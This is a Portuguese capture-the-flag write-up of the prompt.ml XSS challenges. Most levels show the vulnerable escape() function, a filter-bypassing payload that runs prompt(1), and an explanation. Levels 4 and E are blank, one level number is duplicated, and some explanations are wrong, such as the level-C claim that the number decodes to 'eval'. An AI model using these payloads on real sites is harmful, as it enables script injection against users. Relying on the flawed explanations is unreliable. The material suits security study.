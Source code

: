 # Cross-site scripting (XSS) 
###### Solved by @Mayaracar2
> This is a CTF about JavaScript analysis, xss script
## Desafio: Prompt.ml
### Sobre o desafio:
O prompt.ml é uma série de desafios de XSS (Cross-Site Scripting) organizada em níveis, cada um apresentando uma função escape() diferente que impõe filtros específicos na entrada do usuário, e tem como objetivo explorar vulnerabilidades para conseguir rodar código JavaScript, usando o prompt(1) como prova de que o XSS foi bem sucedido.
- [Página do desafio](https://prompt.ml/0)
  
## Soluções:
### Fase 0
Este é o código dado:

```bash
 function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
#### Análise:

A função gera um elemento `<input>` com o valor recebido diretamente, sem escapar caracteres especiais. Isso permite que um atacante quebre o atributo `value` e injete código arbitrário.

#### Payload usado:

```bash
"><script>prompt(1)</script>`
```

#### Por que funciona?

-Fecha o atributo value usando `>`, escapando do contexto onde o conteúdo deveria ser tratado apenas como texto.

-Em seguida, ele insere uma tag `<script>`, que o navegador reconhece e executa como código JavaScript, visto que a função não realiza nenhum filtro ou escape dos caracteres especiais (<, >, "), o navegador interpreta a injeção como parte do HTML, em vez de simples texto, permitindo a execução do script malicioso.

### Fase 1
Este é o código dado:

```bash
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}         
```
#### Análise:

Neste código, a função recebe um input e remove todas as tags HTML usando uma expressão regular (stripTagsRE).

#### Payload usado:

```bash
<svg/onload=prompt(1)
```

#### Por que funciona?

`<svg/`: A regex falha em detectá-lo como tag devido à sua sintaxe incomum, porém passa "ileso".

`onload=prompt(1)`: Atributo de evento JavaScript que é disparado, executando o prompt(1).

### Fase 2
Este é o código dado:

```bash
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```

#### Análise:

Nesse código, tem uma função de escape que remove caracteres específicos como `(=` e `()` de uma string de entrada.

#### Payload usado:

```bash
<svg><script>prompt&#40;1)</script>
```

#### Por que funciona?

`<svg>`: Utilizado como uma "camuflagem", na qual a tag é permitida pelo navegador, ativando o modo SVG e dentro dele, é possivel rodar o <script> normalmente.

`prompt&#40;1)`: O `&#40;` é decodificado pelo navegador como `(` , com base no  [HTML entities](https://www.freeformatter.com/html-entities.html).

### Fase 3
Este é o código dado:

```bash
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```

#### Análise:

Nesse código, a função de escape adiciona o input dentro de um comentário HTML, evitando a execução de scripts maliciosos, substituindo `->`por `_`.

#### Payload usado:

```bash
--!><svg onload=prompt(1)
```

#### Por que funciona?

`--!>`: Como o código não aceita ->, é preciso fechar o comentário para depois o payload ser executado.

`<svg onload=prompt(1)>`: Executa o JavaScript quando o elemento é carregado.

### Fase 4
Este é o código dado:

```bash

       
```
#### Payload usado:

```bash

```

#### Por que funciona?

### Fase 5
Este é o código dado:

```bash
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}            
```

#### Análise:

Este código, impede de gerar tags devido o bloqueio do `>`, bloqueia também qualquer atributo de evento como o anload=, onclick=, onerror=, devido o `on.+?`, além de bloquear a palavra `focus`.

#### Payload usado:

```bash
"type=image src onerror
="prompt(1)
```

#### Por que funciona?

- O filtro usou uma regex fraca, na qual o atacante inseriu uma quebra de linha entre o nome do evento e o sinal `=`.

- O navegador ignora a quebra e interpreta como atributo válido `(onerror=)`.

- O onerror dispara quando a imagem não carrega e o `prompt(1)` é executado.

### Fase 6
Este é o código dado:

```bash
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}          
```

#### Análise:

No código, a função recebe uma entrada no formato `URL#JSON`, gerando um formulário HTML a partir dos dados do JSON e realizando automaticamente o envio por POST.

#### Payload usado:

```bash
javascript:prompt(1)#{"action":1}
```

#### Por que funciona? 

- Quando o `javascript:` é insrido em um link (ou na barra do navegador), tudo depois de javascript: é avaliado como código JavaScript.

- O navegador interpreta apenas a parte antes do # como código JavaScript.

- Tudo após o # é tratado como fragmento da URL (hash), e o navegador não executa isso como código.

### Fase 7
Este é o código dado:

```bash
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}        
```

#### Análise:

No código a função recebe uma string com títulos separados por # e limita cada título a cada 12 caracteres e transforma cada um em uma tag <p> com classe comment e atributo title. Depois junta tudo em uma string com quebra de linha.

#### Payload usado:

```bash
"><svg/m=#"onload='/*#*/prompt(1)'
```

#### Por que funciona? 

`>`: fecha o value

`<svg/m=#"`: Entra no svg e para confundir/fechar atributos anteriores.

`onload='prompt(1)'`: Usado para disparar o prompt(1), logo depois da tag ser carregada.

`/*#*/`: Comentário usado para burlar filtros de caracteres, ele é necessário porque o navegador ignora o comentário, porém ele quebra o padrão que o filtro procura.

### Fase 8
Este é o código dado:

```bash
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}        
```

#### Análise:

Nesse código, a função escape remove quebra de linh, aspas e alguns caracteres HTML, inserindo a string dentro de um comentário em `<script>` com um console.log.

#### Payload usado:

```bash
document.getElementById("input").value="\u2028prompt(1)\u2028-->"
```
(executado no console)

#### Por que funciona? 

Funciona porque `\u2028` em JavaScript é interpretado como uma quebra de linha, portanto encerra o comentário e passa a executar o prompt(1).

### Fase 8
Este é o código dado:

```bash
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}        
```

#### Análise:

O código procura qualquer tag HTML que começa com `<` e é seguido de letra, adicionando um `_` depois do `<`.

#### Payload usado:

```bash
<ſvg/onload=&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;>
```
#### Por que funciona? 

`ſvg`: Um caracter unicode (U+ 017F) que visualmente parece com s, então é aceito como equivalente.

`onload=`: Dispara quando o elemento é carregado.

`&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;`: São entidades númericas HTML que representa caracteres ASCII, que quando interpretado, converte para texto normal.

`&#112;` → p

`&#114;` → r

`&#111;` → o

`&#109;` → m

`&#112;` → p

`&#116;` → t

`&#40;` → (

`&#49;` → 1

`&#41;` → )

### Fase A
Este é o código dado:

```bash
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}        
```
#### Análise:

A função aplica codificação e manipulações no input para bloquear o uso de prompt, mas insere o resultado diretamente dentro de uma tag <script>.

#### Payload usado:

```bash
p'rompt(1)
```
#### Por que funciona? 

A sequência `p'rompt(1)` é usada para driblar filtros básicos que bloqueiam diretamente a palavra prompt e ao inserir um caractere extra, como `'`, dentro do termo, o filtro não identifica a palavra completa e permite que ela passe. 

### Fase B
Este é o código dado:

```bash
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}        
```

#### Análise:

A função tenta higienizar o valor recebido (como um nome de usuário), transforma esse valor em JSON e depois o insere dentro de uma tag <script>.

#### Payload usado:

```bash
"(prompt(1))in"
```

#### Por que funciona? 

Funciona porque o filtro não bloqueia o conteúdo, e dentro de uma tag `<script>` o JavaScript interpreta `(prompt(1))` como uma chamada de função válida. O uso de `in` garante que o código continue sendo uma expressão válida, evitando que o script quebre.

### Fase C
Este é o código dado:

```bash
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}        
```
#### Análise:

A função escape codifica o valor recebido com `encodeURIComponent`, elimina caracteres de aspas simples e troca qualquer ocorrência da palavra prompt por alert. Em seguida, insere esse conteúdo diretamente dentro de uma tag `<script>`.

#### Payload usado:

```bash
eval(630038579..toString(30))(1)
```

#### Por que funciona? 

Esse código funciona porque o número `630038579` convertido para base 30 vira a string `"eval"`. Assim, ele reconstroi dinamicamente a função `eval` e a executa com argumento `1`.

### Fase D
Este é o código dado:

```bash
function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}        
```
#### Análise:

O código recebe um JSON com a URL de uma imagem, aplica configurações padrão por meio de extend, faz uma validação simplificada da URL usando regex e depois gera uma tag substituindo diretamente `{{source}}`.

#### Payload usado:

```bash
{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}
```

#### Por que funciona? 

Isso funciona porque o `extend()` permite poluir o `__proto__`, o que injeta a propriedade source maliciosa dentro de config. A regex de validação não é suficiente para bloquear isso, e o valor injetado vai parar dentro do src da `<img>`, ativando o onerror.

### Fase E
Este é o código dado:

```bash

```
#### Análise:

#### Payload usado:

```bash

```

#### Por que funciona? 

### Fase F
Este é o código dado:

```bash
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}        
```
#### Análise:

No código, a função escape recebe um texto no formato `texto1#texto2#texto3...` e realiza várias operações para gerar conteúdo HTML estruturado:

- Remoção de caracteres especiais:

Inicialmente, todos os asteriscos (*) presentes no input são eliminados, evitando que eles interfiram na formatação ou no conteúdo dos parágrafos gerados.

- Divisão do texto em segmentos:

O input é separado usando o caractere `#` como delimitador, cada pedaço entre os # se torna um segmento independente que será transformado em um parágrafo.

- Geração de parágrafos HTML:

Para cada segmento criado, a função gera uma tag `<p>` no HTML.

Cada parágrafo recebe dois atributos especiais:

`title`: contém os primeiros 15 caracteres do segmento e esses caracteres não passam por sanitização, ou seja, são inseridos diretamente no HTML.

`data-comment`: contém um JSON seguro no formato {"id": índice}, em que o índice representa a posição do segmento na lista.

Dessa forma, a função transforma um texto delimitado por `#` em múltiplos parágrafos HTML, cada um com metadados associados de forma estruturada e segura (para o JSON), mas deixando o conteúdo textual parcialmente exposto no atributo title.

#### Payload usado:

```bash
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>
```

#### Por que funciona? 

- O filtro da função escape não impede a injeção, porque ele só remove `*` e limita o tamanho do título, não escapa caracteres especiais como `" ou <`, o payload fecha o atributo title `(">)` e insere tags diretamente no HTML.

- Os comentários HTML `<!--#-->` são ignorados pelo navegador, mas enganam o filtro, permitindo que o `prompt(1)` seja executado sem ser detectado.

## Conclusão:

O desafio Prompt.ml demonstra como filtros superficiais e funções de escape mal implementadas podem ser contornados de diversas formas, permitindo a execução de código JavaScript malicioso e evidenciando a importância de validação e escaping rigorosos em todos os contextos.
